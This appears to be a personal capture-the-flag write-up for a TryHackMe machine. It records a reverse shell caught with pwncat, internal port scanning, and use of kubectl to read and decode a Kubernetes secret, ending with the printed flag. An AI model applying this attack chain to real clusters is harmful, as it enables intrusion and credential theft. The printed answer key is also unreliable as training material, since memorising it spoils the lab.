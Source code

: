 # Box Name

## island_orchestration

## Overview
---
* [[#Enumeration]]

* [[#Initial Foothold]]

* [[#Privilege Escalation]]

---
## Enumeration
---

![[Pasted image 20220704115237.png]]



![[Pasted image 20220704115440.png]]


![[Pasted image 20220704115814.png]]



![[Pasted image 20220704161910.png]]

 
 ## looking at the output of the apache log looks like it is running inside a docker container
```
172.17.0.3:80 172.17.0.1 - - [04/Jul/2022:19:31:12 +0000] "GET /?page=fiji.php HTTP/1.1" 200 1716 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```

---
## Initial Foothold
---
 ## using AB2's php code got [[revshell]] on docker container
 ```bash
┌──(kn1ght㉿Kali)-[~/THM/islandorchestration]
└─$ pwncat-cs -lp 1234
[13:05:58] Welcome to pwncat 🐈!                                                                                                                                                                                            __main__.py:164
[14:34:41] received connection from 10.10.182.31:49476                                                                                                                                                                           bind.py:84
[14:34:46] 10.10.182.31:49476: registered new host w/ db                                                                                                                                                                     manager.py:957
(local) pwncat$
(remote) www-data@islands-7655b7749f-zvq52:/var/www/html$ whoami
www-data
(remote) www-data@islands-7655b7749f-zvq52:/var/www/html$ 

```


 ## using a python portscannig script verified that i'm in a docker container
 ```bash
(remote) www-data@islands-7655b7749f-zvq52:/tmp$ python portscanner.py 172.17.0.1
Open Ports are: 
[22, 2376, 8443, 10249, 10250, 10256]
(remote) www-data@islands-7655b7749f-zvq52:/tmp$ python portscanner.py 172.17.0.2
Open Ports are: 
[80, 47208]
(remote) www-data@islands-7655b7749f-zvq52:/tmp$ python portscanner.py 172.17.0.3
Open Ports are: 
[53, 8080, 8181, 9153]
(remote) www-data@islands-7655b7749f-zvq52:/tmp$ python portscanner.py 172.17.0.4

```

---
## Privilege Escalation
----
 ## uploaded kubctl
```bash
(remote) www-data@islands-7655b7749f-zvq52:/tmp$ ./kubectl auth can-i --list   
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
secrets                                         []                                    []               [get list]
                                                [/.well-known/openid-configuration]   []               [get]
```

```bash
(remote) www-data@islands-7655b7749f-zvq52:/tmp$ ./kubectl describe secrets
Name:         flag
Namespace:    default
Labels:       <none>
Annotations:  <none>

Type:  Opaque

Data
====
flag:  38 bytes


```

```bash
(remote) www-data@islands-7655b7749f-zvq52:/tmp$ ./kubectl get secrets/flag -o json
{
    "apiVersion": "v1",
    "data": {
        "flag": "ZmxhZ3swOGJlZDlmYzBiYzZkOTRmZmY5ZTUxZjI5MTU3Nzg0MX0="
    },
    "kind": "Secret",
    "metadata": {
        "annotations": {
            "kubectl.kubernetes.io/last-applied-configuration": "{\"apiVersion\":\"v1\",\"data\":{\"flag\":\"ZmxhZ3swOGJlZDlmYzBiYzZkOTRmZmY5ZTUxZjI5MTU3Nzg0MX0=\"},\"kind\":\"Secret\",\"metadata\":{\"annotations\":{},\"name\":\"flag\",\"namespace\":\"default\"},\"type\":\"Opaque\"}\n"
        },
        "creationTimestamp": "2022-03-02T19:47:07Z",
        "name": "flag",
        "namespace": "default",
        "resourceVersion": "7072",
        "uid": "750ac081-742f-4594-a6f4-8fa3e1bbceb7"
    },
    "type": "Opaque"
}

```

```bash
echo 'ZmxhZ3swOGJlZDlmYzBiYzZkOTRmZmY5ZTUxZjI5MTU3Nzg0MX0=' | base64 -d                
flag{08bed9fc0bc6d94fff9e51f291577841}  
```